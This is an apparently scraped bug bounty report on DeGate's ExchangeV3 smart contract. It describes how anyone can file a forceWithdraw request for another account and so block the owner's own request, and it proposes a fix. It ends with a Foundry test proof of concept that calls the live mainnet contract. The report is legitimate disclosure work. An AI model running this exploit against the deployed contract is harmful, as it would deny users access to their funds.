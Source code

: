 # 25892 - \[SC - Insight] A malicious user can DoS force withdraw request...

Submitted on Nov 20th 2023 at 22:59:01 UTC by @CanYeRest298751 for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #25892

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:

* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Bug Description

A malicious user can request a `forceWithdraw` request on behalf of another `accountID`. This is correctly handled by the prover, and the request will be invalidated when processed by the operator. However in the meantime, the user with the account `accountID` cannot request a forceWithdraw, since only one `forceWithdraw` can be requested at a time.

## Impact

A malicious user can prevent a legitimate one to request `forceWithdraw` for her funds. Thereby denying the access to funds if operator is also malicious. This can be used to keep big accounts inside the platform, and is a big centralization risk

## Risk Breakdown

Difficulty to Exploit: Easy Weakness: CVSS2 Score:

## Recommendation

Also include the `from` variable in the mapping to check if forceWithdraw has been requested, since `from` can be invalid at request time.

## References

## Proof of concept

import as a test in a forge project and run `forge test -vvvv`

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IExchangeV3 {
    function forceWithdraw(
        address from,
        address tokenId,
        uint32 accountId
    ) external payable;
}

contract CounterTest is Test {
    IExchangeV3 public exchangeV3 =
        IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);

    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    address attacker = address(1);
    address legitimate_user = address(2);

    uint32 accountId = 1;

    function setUp() public {}

    function testForceWithdrawalDos() public {
        //This withdraw is bound to fail because accountId does not belong to address attacker
        vm.prank(attacker);
        exchangeV3.forceWithdraw{value: 1e18}(attacker, usdc, accountId);

        //This withdraw request can succeed, because this is the right value for from
        vm.prank(legitimate_user);
        exchangeV3.forceWithdraw{value: 1e18}(legitimate_user, usdc, accountId);
    }
}
```
